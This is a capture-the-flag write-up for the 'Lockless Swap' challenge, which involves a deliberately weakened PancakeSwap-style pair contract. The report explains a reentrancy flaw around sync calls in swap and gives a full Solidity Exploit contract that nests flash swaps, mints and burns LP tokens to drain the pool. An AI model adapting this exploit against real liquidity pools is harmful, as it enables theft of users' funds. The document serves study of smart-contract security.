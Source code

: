 # Lockless Swap - Solution Report

## Problem Overview

### Contract Summary

The challenge revolves around a vulnerable implementation of a PancakeSwap-like Automated Market Maker (AMM). The main contracts involved are:

1. `Challenge`: Sets up the trading pair and provides a faucet for initial tokens.
2. `PancakePair`: A modified version of PancakeSwap's pair contract, lacking crucial security measures.

Key functions in `PancakePair`:

- `swap`: Allows token swaps, but lacks reentrancy protection.
- `mint`: Adds liquidity and mints LP tokens.
- `burn`: Removes liquidity and burns LP tokens.
- `sync`: Updates the contract's internal token balance records.

### Initial Setup

- Two ERC20 tokens: `token0` and `token1`
- Initial liquidity: 99e18 of each token
- PancakePair contract initialized with this liquidity

### Success Criteria

To solve the challenge, an attacker must:

- Transfer 99e18 of `token0` to the `randomFolks` address
- Transfer 99e18 of `token1` to the `randomFolks` address

This requires draining the entire initial liquidity from the pool, demonstrating a critical vulnerability in the AMM implementation.

## Vulnerability

The core vulnerability in this challenge lies in the `PancakePair` contract, specifically in the `swap` function. The vulnerable code can be found in the following lines:

```solidity
function swap(uint256 amount0Out, uint256 amount1Out, address to, bytes calldata data) external lock {
    // ... (other code)

    if (data.length > 0) {
        this.sync(); // @shou: no more lock protection, needs to prevent attacker sync during swap
        IPancakeCallee(to).pancakeCall(msg.sender, amount0Out, amount1Out, data);
        this.sync(); // @shou: no more lock protection, needs to prevent attacker sync during swap
    }

    // ... (other code)
}
```

The vulnerability stems from two critical issues:

1. Lack of Reentrancy Protection:
   The `swap` function allows for external calls (`pancakeCall`) within its execution. While there is a `lock` modifier, it's ineffective due to the use of `this.sync()`, which releases the lock before making the external call.

2. Unrestricted `sync` Calls:
   The `sync` function is called before and after the `pancakeCall`, allowing an attacker to manipulate the contract's state during the swap process. This enables the attacker to alter the contract's understanding of its token balances mid-transaction.

These vulnerabilities combined allow for a reentrancy attack where an attacker can:

- Initiate multiple swaps before the first one is completed
- Manipulate the contract's state between swaps
- Mint liquidity tokens based on manipulated states
- Extract more value from the pool than should be possible

The lack of proper checks and balances in the `mint`, `burn`, and `sync` functions further exacerbates the issue, allowing the attacker to compound the effects of their manipulation with each reentrant call.

## Attack Process

The attack exploits the reentrancy vulnerability in the `PancakePair` contract through a series of carefully orchestrated steps:

1. Initial Setup:

   - Deploy the `Exploit` contract, passing the `Challenge` contract address.
   - Approve the `PancakePair` contract to spend tokens on behalf of the `Exploit` contract.

2. Flash Swap Initiation:

   - Call `pair.swap(5e18, 5e18, address(this), abi.encode(uint256(1)))`.
   - This borrows 5e18 of each token from the pair, triggering the `pancakeCall` function.

3. Initial pancakeCall Execution:

   - Inside `pancakeCall`, verify it's the initial call using the encoded data.
   - Call `pair.sync()` to update the pair's internal balance records.
   - Perform 5 reentrant swaps in a loop, each for 90e18 of both tokens.

4. Reentrant Swap Execution:

   - For each reentrant swap, `pancakeCall` is triggered again.
   - Call `pair.sync()` to update balances.
   - Transfer 90e18 of each token back to the pair.
   - Call `pair.mint(address(this))` to receive liquidity tokens.
   - Repay only 1e18 of each token, keeping the rest.

5. Finalizing the Initial Flash Swap:

   - After the reentrant swaps, call `challenge.faucet()` to get additional tokens.
   - Repay the initial flash swap with just 1e18 of each token.

6. Extracting Drained Funds:

   - Transfer all accumulated liquidity tokens back to the pair.
   - Call `pair.burn(address(this))` to extract the underlying assets.

7. Completing the Challenge:
   - Transfer 99e18 of each token to the `randomFolks` address.

This process effectively drains the entire liquidity pool, exploiting the lack of proper reentrancy protection and state management in the `PancakePair` contract.

## Proof of Concept (PoC)

The following code demonstrates the implementation of the exploit:

```solidity
contract Exploit {
    Challenge immutable challenge;

    constructor(Challenge chal) payable {
        challenge = Challenge(chal);
    }

    function exploit() external {
        PancakePair pair = challenge.pair();
        ERC20 token0 = challenge.token0();
        ERC20 token1 = challenge.token1();
        address randomFolks = challenge.randomFolks();

        // Approve tokens for the pair
        token0.approve(address(pair), type(uint256).max);
        token1.approve(address(pair), type(uint256).max);

        // Initial flash swap
        pair.swap(5e18, 5e18, address(this), abi.encode(uint256(1)));

        // Burn liquidity tokens to extract drained funds
        pair.transfer(address(pair), pair.balanceOf(address(this)));
        pair.burn(address(this));

        // Transfer drained tokens to randomFolks
        token0.transfer(randomFolks, 99e18);
        token1.transfer(randomFolks, 99e18);
    }

    function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
        require(msg.sender == address(challenge.pair()), "Caller is not the pair");

        PancakePair pair = challenge.pair();
        ERC20 token0 = challenge.token0();
        ERC20 token1 = challenge.token1();

        if (abi.decode(data, (uint256)) == 1) {
            // Initial flash swap callback
            pair.sync();

            // Perform multiple reentrant swaps
            for (uint256 i = 0; i < 5; i++) {
                pair.swap(90e18, 90e18, address(this), abi.encode(uint256(2)));
            }

            // Get additional tokens from faucet
            challenge.faucet();

            // Repay flash swap
            token0.transfer(address(pair), 1e18);
            token1.transfer(address(pair), 1e18);
        } else {
            // Reentrant swap callback
            pair.sync();

            // Mint liquidity tokens
            token0.transfer(address(pair), 90e18);
            token1.transfer(address(pair), 90e18);
            pair.mint(address(this));

            // Repay reentrant swap
            token0.transfer(address(pair), 1e18);
            token1.transfer(address(pair), 1e18);
        }
    }
}
```

This implementation successfully exploits the reentrancy vulnerability and lack of proper checks in the `PancakePair` contract, draining the entire liquidity pool.
